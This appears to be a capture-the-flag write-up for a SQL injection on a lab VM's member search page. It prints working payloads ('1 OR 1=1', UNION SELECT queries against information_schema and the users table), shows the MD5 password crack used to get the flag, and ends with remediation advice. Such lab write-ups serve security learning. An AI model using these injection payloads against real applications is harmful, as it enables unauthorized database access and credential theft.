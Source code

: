 # SQL INJECTION

## IDENTIFY THE VULNERABILITY

The member page, accessible at http://192.168.56.2/index.php?page=member, allows users to search for members by ID, providing access to valuable database information. During our investigation, we discovered the 5th member named "Get The Flag," which led us to investigate potential SQL injection vulnerabilities.

Format of SQL query:

```sql
SELECT column_name FROM table_name WHERE condition ORDER BY column_name
```

## EXPLOIT THE VULNERABILITY

Executing the simple query **1 OR 1=1** displayed a list of all users. To explore further, we used the following query to reveal details about tables and columns in the database.

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Focusing on the "users" keyword, we identified eight categories within the users table, which include 'user_id', 'first_name', 'last_name', 'town', 'country', 'planet', 'Commentaire' and 'countersign'.

The users table looks like this :

| ID  | First name | Surname     |
| --- | ---------- | ----------- |
| 1   | users      | user_id     |
| 2   | users      | first_name  |
| 3   | users      | last_name   |
| 4   | users      | town        |
| 5   | users      | country     |
| 6   | users      | planet      |
| 7   | users      | Commentaire |
| 8   | users      | countersign |

After several attempts, we used the query :

```sql
1 UNION SELECT countersign, Commentaire FROM users WHERE user_id=5
```

which provided the following information:

> First name: 5ff9d0165b4f92b14994e5c685cdce28

> Surname: Decrypt this password -> then lower all the characters. Apply SHA256, and it's good!

Using Crackstation, we deciphered the password "FortyTwo" (MD5 hash) and then hashed it with SHA256 to obtain the flag.

## INFORMATION ON SQL INJECTION

SQL injection is a malicious technique that enables an attacker to manipulate or interfere with the SQL queries executed by an application to its associated database. This vulnerability can have severe consequences, **_granting unauthorized access to, and control over, the database_**. An attacker exploiting SQL injection may gain the ability to **_read, modify, or delete sensitive data stored in the database_**. This could potentially include compromising users' personal information, accessing email addresses, and obtaining passwords. The impact of SQL injection extends beyond mere unauthorized data access, as it poses a substantial threat to the confidentiality, integrity, and availability of the entire database.

## PATCH THE VULNERABILITY

To reduce the risks associated with SQL injection attacks, consider implementing the following security measures:

1. Input Validation and Parameterized Statements:

   - Validate and sanitize all user inputs on the server side.
   - Use parameterized statements (prepared statements) in SQL queries to separate user input from SQL code.

2. Stored Procedures:

   Utilize stored procedures to encapsulate and execute SQL queries. This adds an additional layer of security by limiting direct access to the database.

3. Least Privilege Principle:

   Ensure that database accounts used by your application have the least privilege necessary to perform their tasks. Avoid using accounts with unnecessary permissions.

4. Whitelisting:

   Implement input whitelisting, allowing only predefined, safe characters or patterns. This helps prevent the injection of malicious SQL code.

5. ORMs and Parameterized Queries:

   If using Object-Relational Mapping (ORM) frameworks, make sure they generate parameterized queries to prevent SQL injection vulnerabilities.

6. Error Handling:

   Implement proper error handling to avoid exposing sensitive information in error messages. Provide generic error messages to users and log detailed errors for administrators.

7. Web Application Firewalls (WAFs):

   Use Web Application Firewalls to filter and monitor HTTP traffic between a web application and the Internet. WAFs can help detect and prevent SQL injection attacks.

## SOURCES

https://portswigger.net/web-security/sql-injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
